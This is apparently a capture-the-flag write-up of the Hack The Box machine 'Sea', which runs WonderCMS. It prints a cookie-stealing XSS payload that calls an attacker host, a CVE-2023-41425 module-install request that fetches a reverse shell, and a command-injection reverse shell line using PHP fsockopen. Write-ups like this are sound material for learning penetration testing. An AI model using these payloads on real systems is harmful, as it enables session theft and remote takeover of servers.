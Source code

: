 ```yaml
---
title: "Sea Hackthebox"
date: 2024-08-17
draft: false
tags : ["write-up", "htb"]

---
```


## User flag
### Recon

Firtsly, `sea.htb` is built from [wondercms](https://www.wondercms.com/). You can check it by enumerating the web or searching the string `velik71` appeared on the banner. 

Checking the `/themes/bike/wcms-modules.json`, I found the version of this website is `3.2.0`. It has a [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425) that allows an attacker to a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

I also found a `contact.php` page which allows us to send infomation including a malicous link to the admin.

### Exploitation
I use the `contact.php` page to send a link to the admin to steal the cookie. 

```
http://sea.htb/index.php?page="></form><script>fetch('http://<ip>:<port>?cookie='+document.cookie)</script><form action="
```
Use this cookie to access the admin page


Use the `installModule` to upload a reverse shell to the server and access the server as `www-data`.
```
http://sea.htb/?installModule=http://10.10.14.64:9000/reverseshell.zip&directoryName=essence&type=themes&token=<token>
```
![alt text](/posts/sea-htb/image.png)

Enumerate current directory, I found a database.js file in `/var/www/sea/data` which contains the Bcrypt hash of password. Use `john` to crack it and it is password of `amay`.
![alt text](/posts/sea-htb/image-1.png)

Get the user flag at `/home/amay/user.txt`


## Root flag

List listened ports opened:
```shell
netstat -tulnp | grep LISTEN
```

The local host is running a web on port 8080. I use ssh tunnel to access it. 

```shell
ssh -L 8081:127.0.0.1:8080 amay@10.10.11.28
```
![alt text](/posts/sea-htb/image-2.png)



The web is a *System Monitor* page. The page get the `log_file` parameter to read the file and filter the content. It may uses shell script with php system function like `system` or `passthru`,... to read the file. To get flag, I modified the `log_file` param to shell script to read the root flag and send it to my server.

```shell
; php -r '$sock=fsockopen("10.10.14.8",9000);`/bin/sh <&3 >&3 2>&3`;'
```
![alt text](/posts/sea-htb/image-3.png)


The shell last for a few seconds, so you can change `/bin/sh` to `cat /root/root.txt` to get the root flag.
![alt text](/posts/sea-htb/image-4.png)


---
